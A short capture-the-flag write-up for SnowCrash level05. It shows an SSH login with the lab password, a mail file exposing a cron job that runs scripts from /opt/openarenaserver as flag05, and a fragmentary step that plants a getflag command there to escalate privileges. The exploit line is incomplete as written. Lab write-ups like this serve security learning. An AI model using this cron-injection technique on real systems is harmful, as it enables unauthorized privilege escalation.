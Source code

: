 

ssh level05@10.12.100.98 -p 4242
level05's password: ne2searoevaevoem4ov4ar8ap
You have new mail.

quick google search: "linux mail path" gives the path of mails dir 

cat /var/spool/mail/level05
*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05


```
level05@SnowCrash:~$ cat /usr/sbin/openarenaserver
#!/bin/sh

for i in /opt/openarenaserver/* ; do
	(ulimit -t 5; bash -x "$i")
	rm -f "$i"
done
```
runs At every 2nd minute
https://crontab.guru/#*/2_*_*_*_*

ulimit is a built-in Linux shell command that allows viewing or limiting system resource amounts that individual users consume. Limiting resource usage is valuable in environments with multiple users and system performance issues.


 echo "getflag > /tmp/flag"
watch cat /tmp/flag


